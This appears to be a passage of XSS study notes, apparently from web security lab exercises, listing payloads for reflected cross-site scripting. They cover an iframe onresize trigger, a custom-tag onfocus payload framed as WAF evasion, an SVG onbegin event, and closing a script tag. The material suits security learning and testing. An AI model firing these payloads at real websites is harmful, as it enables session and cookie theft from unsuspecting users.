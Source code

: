If you need to work with ```iframes```, for example, in order to be able to trigger an ```onresize``` event, the following is an example:

```html
<iframe src="https://URL/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

## Custom tags option to evade WAF

```html
/?search=<custom-tag id='x' onfocus='alert(document.cookie)' tabindex=1>test</custom-tag>#x
```

In order to automate the execution of the alert we can use the "onfocus event". If we assign an ID to our custom element, we can recall it by passing the hash to the URL QUERY. The problem is that an element recalled by the hashchange is not automatically "on focus". So if we set the "tabindex" parameter to 1, this element will be focused for first. If the user, then, click the tab on the keyboard will navigate other element of the page.

# XSS in SVG tag using ```<animateTransform>``` and "onbegin" event

```html
<svg><animateTransform onbegin='alert(1)'>
```


# XSS in reflected JS script tag with escaping of "\" and "'"

In this scenario we have our input reflected in a ```<script> tag```. If we try to insert the chars ```'``` or ```\``` we notice that these will be escaped.

However, we are inside a ```<script>``` tag so we can try to close this tag and open a new ```<script>``` tag to execute our JS code.

Scenario:

```html
<script>
    var searchTerms = 'test';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

We can bypass the escaping by passing the following:

```html
</script><script>alert("xss")</script>
```

In some cases this will break the script tag and will be interpreted as a new script.

# JavaScript template string injection
